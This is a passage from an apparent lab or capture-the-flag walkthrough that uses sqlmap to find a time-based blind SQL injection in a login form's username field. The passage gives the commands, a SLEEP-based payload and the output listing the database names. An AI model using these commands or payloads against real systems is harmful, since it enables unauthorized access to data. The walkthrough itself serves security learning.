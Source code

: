but, we see in the logs 

```bash
[10:48:56] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
```

let's try again with this option set

```bash
> sqlmap -r admin.req --dbms=mysql


...SNIP

POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 107 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 2524 FROM (SELECT(SLEEP(5)))xERJ) AND 'Cmqx'='Cmqx&password=admin&login=
---


...SNIP
```

we have time-based blind injection.

This will be slow so we have to be particular about what we decide to dump or we will be here all day...

Let's dump the database names to start with. We run a tables query and kill it after database names have been enumerated.

```bash
> sqlmap -r admin.req --tables

...SNIP

[10:50:53] [INFO] fetching database names
[10:50:53] [INFO] fetching number of databases
[10:50:53] [INFO] retrieved: 4
[10:50:54] [INFO] retrieved: information_schema
[10:52:00] [INFO] retrieved: db_sfms
[10:52:27] [INFO] retrieved: erms_db
[10:52:54] [INFO] retrieved: roundcu
[10:53:24] [ERROR] invalid character detected. retrying..
[10:53:24] [WARNING] increasing time delay to 2 seconds
bedb
[10:53:44] [INFO] fetching tables for databases: 'db_sfms, erms_db, information_schema, roundcubedb'

...SNIP

```
